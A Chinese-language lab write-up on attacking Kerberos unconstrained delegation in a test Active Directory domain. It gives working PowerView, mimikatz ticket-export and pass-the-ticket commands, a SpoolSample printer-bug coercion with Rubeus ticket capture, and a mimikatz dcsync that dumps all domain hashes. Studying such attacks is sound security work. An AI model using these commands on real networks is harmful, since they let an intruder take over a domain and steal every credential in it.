



# 非约束性委派

非约束性委派，服务账户可以获取被委派用户的TGT，并将TGT缓存到LSASS进程当中，从而使该服务账户能够模拟用户访问任意服务

# 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 域普通用户: hack
- 域: xie.com

在域控上配置主机WIN2012R203具有非约束性委派属性



# 攻击手法

假设我们已经获取了WIN7主机权限，使用[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)查询域内非约束性委派的主机账户，可以看到有WIN7机器

```powershell
PS C:\Users\hack\Desktop> Import-Module .\PowerView.ps1

PS C:\Users\hack\Desktop> Get-NetComputer -Unconstrained -Domain xie.com | Select-Object -ExpandProperty samaccountname
WIN-HSTT0ETJU78$
AD02$
WIN7$
```

正常情况下在WIN7访问域控是没有权限的

```powershell
PS C:\Users\hack\Desktop> dir \\WIN-HSTT0ETJU78.xie.com\c$
dir : 拒绝访问。
所在位置 行:1 字符: 1
+ dir \\WIN-HSTT0ETJU78.xie.com\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\WIN-HSTT0ETJU78.xie.com\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
 
dir : 找不到路径“\\WIN-HSTT0ETJU78.xie.com\c$”，因为该路径不存在。
所在位置 行:1 字符: 1
+ dir \\WIN-HSTT0ETJU78.xie.com\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\WIN-HSTT0ETJU78.xie.com\c$:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

## 攻击手法

### 0x01 诱使域管理员访问机器

现在用域管理员xie\administrator登入WIN7机器，比如RDP

登入之后，重新用WIN7的管理员用户运行mimikatz

```powershell
PS C:\Users\hack\Desktop> runas /user:administrator powershell.exe
#输入密码
PS C:\users\hack\Desktop> whoami
win7\administrator
#运行猕猴桃
PS C:\users\hack\Desktop> .\mimikatz.exe

mimikatz # privilege::debug
#导出票据
mimikatz # sekurlsa::tickets /export

#可以看到会导出Administrator@krbtgt-XIE.COM票据
PS C:\users\hack\Desktop> dir
-a---         2024/9/23     23:17       1691 [0;e9d5a]-0-0-40a50000-Administrator@ldap-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1691 [0;e9d5a]-0-1-40a50000-Administrator@cifs-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1709 [0;e9d5a]-0-2-40a50000-Administrator@LDAP-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1517 [0;e9d5a]-2-0-60a10000-Administrator@krbtgt-XIE.COM.kirbi                                                           
-a---         2024/9/23     23:17       1517 [0;e9d5a]-2-1-40e10000-Administrator@krbtgt-XIE.COM.kirbi

#导入票据
#这个时候不用管理员用户也可以
mimikatz # kerberos::ptt [0;e9d5a]-2-0-60a10000-Administrator@krbtgt-XIE.COM.kirbi

#查看票据
mimikatz # kerberos::list
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 2024/9/23 23:06:21 ; 2024/9/24 9:06:07 ; 2024/9/30 23:06:07
   Server Name       : krbtgt/XIE.COM @ XIE.COM
   Client Name       : Administrator @ XIE.COM
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ;
 forwardable ;

mimikatz # exit
Bye!

#可以看到成功访问域控了
C:\Users\hack\Desktop>dir \\WIN-HSTT0ETJU78.xie.com\c$
 驱动器 \\WIN-HSTT0ETJU78.xie.com\c$ 中的卷没有标签。
 卷的序列号是 F0F5-6A44

 \\WIN-HSTT0ETJU78.xie.com\c$ 的目录

2024/09/17  21:20    <DIR>          inetpub
2013/08/22  23:52    <DIR>          PerfLogs
2013/08/22  22:50    <DIR>          Program Files
2013/08/22  23:39    <DIR>          Program Files (x86)
2024/09/19  12:02    <DIR>          Users
2024/09/20  17:21    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 52,107,898,880 可用字节

C:\Users\hack\Desktop>whoami
xie\hack
```

### 0x02 配合打印机漏洞攻击

这篇[ms-rprn-abuse-printerbug](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn#ms-rprn-abuse-printerbug)文章介绍了一些相关内容

>Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing.
>

大概意思是说当攻击者控制了域内的账户或者机器时，可以通过一个指定的远程调用来触发目标机器上运行的打印机服务，并且使该目标向攻击者指定的机器进行身份验证，于是我们可以通过打印机服务漏洞强制域控连接了配置非约束性委派的机器


先使用WIN7主机的管理员运行Rubeus监听来自域控WIN-HSTT0ETJU78主机的ticket

```powershell
Rubeus.exe monitor /interval:1 /filteruser:WIN-HSTT0ETJU78$
```

再用普通域用户hack触发printerbug

```powershell
c:\Users\Public\Documents>.\SpoolSample.exe WIN-HSTT0ETJU78 WIN7
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\WIN-HSTT0ETJU78, CaptureServer: \\WIN7
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - RPC ???????
```

此时Rubeus应该就能收到来自WIN-HSTT0ETJU78的ticket



如果没有收到的话，可能原因是WIN7主机的防火墙拦截了SMB的445端口，进行如下配置即可




接下来使用Rubeus导入base64 ticket到内存当中

```powershell
.\Rubeus.exe ptt /ticket:<Base64Ticket>
```

域控的机器不能用于登入，但是又DCSync权限，所以可以导出域内hash

```powershell
mimikatz.exe "lsadump::dcsync /all /csv" "exit"
```

# 参考

- <https://www.notsoshant.io/blog/attacking-kerberos-unconstrained-delegation/>